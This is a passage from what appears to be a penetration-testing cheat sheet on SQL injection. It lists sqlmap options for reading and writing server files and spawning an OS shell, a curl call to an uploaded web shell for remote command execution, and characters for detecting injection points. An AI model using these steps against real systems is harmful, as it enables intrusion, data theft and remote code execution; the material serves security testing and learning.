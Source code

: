 ```
--is-dba
```

If `current user is DBA: False`, meaning that we do not have DBA access.  If `current user is DBA: True`, meaning that we may have the privilege to read local files.

Reading a local file:

```
--file-read "<fileName>"
```

Spawing an OS shell:

```
--os-shell
```

Writing Local Files:

```
--file-write "<nameFile>" --file-dest "<nameFile>"
```

If a shell can be uploaded, we can do an RCE attack. For example:

```
curl http://www.example.com/shell.php?cmd=ls+-la
```

>Automatic tool for SQLi - Burpsuite (Intruder)

> Manual SQLi Attack Testing

Entry point detection:

```
'

"

`

')

")

`)

'))

"))

`))

%27

%22

#

%23

;

%3B

)
```
